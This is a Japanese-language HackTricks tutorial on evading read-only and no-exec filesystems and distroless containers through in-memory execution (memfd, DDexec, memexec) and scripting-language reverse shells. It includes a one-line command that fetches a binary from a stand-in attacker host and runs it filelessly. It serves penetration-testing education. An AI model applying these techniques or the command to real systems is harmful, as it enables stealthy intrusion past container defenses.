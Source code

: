 # ファイルシステム保護のバイパス：読み取り専用 / 実行不可 / Distroless

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）でAWSハッキングをゼロからヒーローまで学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>！</strong></a></summary>

HackTricksをサポートする他の方法：

- **HackTricksで企業を宣伝**したい場合や**HackTricksをPDFでダウンロード**したい場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
- [**公式PEASS＆HackTricksスウォッグ**](https://peass.creator-spring.com)を入手する
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
- **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)**に参加するか、[telegramグループ](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)をフォローする
- **Hackingトリックを共有するには、**[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**ハッキングキャリア**に興味があり、**解読不能なものをハック**したい場合は、**採用中**です！（_流暢なポーランド語の読み書きが必要です_）。

{% embed url="https://www.stmcyber.com/careers" %}

## 動画

以下の動画では、このページで言及されているテクニックについて、より詳しく説明されています：

- [**DEF CON 31 - ステルスと回避のためのLinuxメモリ操作の探索**](https://www.youtube.com/watch?v=poHirez8jk4)
- [**DDexec-ngとインメモリdlopen()によるステルス侵入 - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## 読み取り専用 / 実行不可シナリオ

**読み取り専用（ro）ファイルシステム保護**が**Linuxマシン**で**より一般的**になってきており、特にコンテナで見つけることができます。これは、roファイルシステムでコンテナを実行するのは、`securitycontext`で**`readOnlyRootFilesystem: true`**を設定するだけで簡単だからです：

```yaml
apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
      readOnlyRootFilesystem: true
    command: ["sh", "-c", "while true; do sleep 1000; done"]
```

しかし、ファイルシステムがroとしてマウントされていても、**`/dev/shm`**は書き込み可能のままであるため、ディスクに書き込むことができないというのは偽物です。ただし、このフォルダは**実行不可保護**でマウントされるため、ここにバイナリをダウンロードしても**実行できません**。

{% hint style="warning" %}
レッドチームの観点からすると、これはバイナリ（バックドアや`kubectl`のような列挙ツールなど）を**ダウンロードして実行するのが複雑**になります。
{% endhint %}

## 最も簡単なバイパス：スクリプト

バイナリと言及しましたが、インタプリタがマシン内にある限り、**シェルスクリプト**（`sh`が存在する場合）や**Pythonスクリプト**（`python`がインストールされている場合）など、**任意のスクリプトを実行**できます。

ただし、これだけではバイナリバックドアや他の実行する必要があるバイナリツールを実行するのには十分ではありません。

## メモリバイパス

ファイルシステムがそれを許可していない場合にバイナリを実行したい場合、**メモリから実行**するのが最適です。なぜなら、**その保護はそこには適用されない**からです。

### FD + execシステムコールバイパス

**Python**、**Perl**、**Ruby**などの強力なスクリプトエンジンがマシン内にある場合、メモリから実行するためにバイナリをダウンロードし、メモリファイルディスクリプタに保存し（`create_memfd`システムコール）、これらの保護によって保護されないため、**fdをファイルとして実行する**ように**`exec`システムコール**を呼び出すことができます。

これには、プロジェクト[**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec)を簡単に使用できます。バイナリを渡すと、バイナリが**デコードおよび解凍された**スクリプトが生成され、`create_memfd`システムコールを呼び出して作成された**fd**にバイナリを格納し、それを実行する**`exec`システムコール**への呼び出し手順が含まれます。

{% hint style="warning" %}
これは、PHPやNodeなどの他のスクリプト言語では、スクリプトから**生のシステムコール**を呼び出す**デフォルトの方法**がないため、`create_memfd`を呼び出して**バイナリを格納するためのメモリfd**を作成することができないため、これは機能しません。

さらに、`/dev/shm`内のファイルで**通常のfd**を作成しても、**実行不可保護**が適用されるため、実行できません。
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec)は、**`/proc/self/mem`**を上書きすることで、**自分自身のプロセスのメモリを変更**する技術であり、**プロセスが実行しているアセンブリコード**を制御することで、**シェルコード**を書き込み、プロセスを**任意のコードを実行**するように「変異」させることができます。

{% hint style="success" %}
**DDexec / EverythingExec**を使用すると、**自分自身のメモリから**自分自身の**シェルコード**または**任意のバイナリ**を**ロードして実行**できます。
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
### MemExec

[**Memexec**](https://github.com/arget13/memexec)はDDexecの自然な次のステップです。これは**DDexecシェルコードをデーモン化**したもので、異なるバイナリを実行したいときには、DDexecを再起動する必要はありません。代わりに、DDexec技術を使用してmemexecシェルコードを実行し、**このデーモンと通信して新しいバイナリをロードして実行**できます。

**memexecを使用してPHPリバースシェルからバイナリを実行する例**は、[https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php)で見つけることができます。

### Memdlopen

DDexecと同様の目的を持つ[**memdlopen**](https://github.com/arget13/memdlopen)技術は、後で実行するためにメモリにバイナリをロードする**簡単な方法**を提供します。これにより、依存関係を持つバイナリをロードすることさえ可能になります。

## Distroless Bypass

### Distrolessとは

Distrolessコンテナには、ライブラリやランタイム依存関係など、**特定のアプリケーションやサービスを実行するために必要な最小限のコンポーネント**だけが含まれており、パッケージマネージャーやシェル、システムユーティリティなどのより大きなコンポーネントは除外されています。

Distrolessコンテナの目標は、**不要なコンポーネントを排除**し、悪用される可能性のある脆弱性の数を最小限に抑えることで、コンテナの攻撃面を**縮小**することです。

### リバースシェル

Distrolessコンテナでは、通常のシェルを取得するための`sh`や`bash`などが**見つからない**かもしれません。`ls`、`whoami`、`id`などのバイナリも見つけることはできません...通常システムで実行するものはすべて見つかりません。

{% hint style="warning" %}
したがって、通常行うような**リバースシェル**の取得や**システムの列挙**はできません。
{% endhint %}

ただし、侵害されたコンテナが例えばflask webを実行している場合、Pythonがインストールされているため、**Pythonリバースシェル**を取得できます。Nodeを実行している場合はNodeリバースシェルを取得でき、ほとんどの**スクリプト言語**でも同様です。

{% hint style="success" %}
スクリプト言語を使用することで、言語の機能を利用して**システムを列挙**することができます。
{% endhint %}

**`read-only/no-exec`**の保護がない場合、リバースシェルを悪用してファイルシステムに**バイナリを書き込み**、それらを**実行**することができます。

{% hint style="success" %}
ただし、この種のコンテナでは通常これらの保護が存在しますが、**以前のメモリ実行技術を使用してそれらをバイパス**することができます。
{% endhint %}

**RCE脆弱性を悪用してスクリプト言語のリバースシェルを取得**し、[**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE)でメモリからバイナリを実行する方法の**例**を見つけることができます。
